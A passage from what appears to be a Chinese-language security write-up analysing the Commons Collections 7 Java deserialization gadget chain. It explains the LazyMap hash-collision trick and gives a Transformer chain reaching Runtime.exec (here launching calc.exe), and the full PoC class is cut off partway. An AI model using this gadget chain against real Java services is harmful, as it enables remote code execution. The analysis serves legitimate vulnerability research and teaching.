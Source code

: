 ![image.png](Commons Collections 7 分析.assets/2023_05_19_10_37_49_20hqWiyV.png)

此时lazymap就多了这个value

![image.png](Commons Collections 7 分析.assets/2023_05_19_10_37_50_je8i6WxD.png)



### 0x3 
那么在反序列化时，要保证要调用`lazymap#get`，那么需要保证两个lazymap被hashcode()之后，一定要相等，且调用的是`lazymap2#get`,那么lazymap2的`Transformer factor` 就要为执行命令的transformers，也需要将多余的LazyMap删除掉
```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
};

lazyMap2.remove("yy");

Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);
```
## POC
完整poc如下
```java
package com.myproject;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class TestCC7 {
    public static void main(String[] args) throws Exception {
        Transformer[] fackerTransformer = new Transformer[]{};
        Transformer transformerChain = new ChainedTransformer(fackerTransformer);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };


        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
```
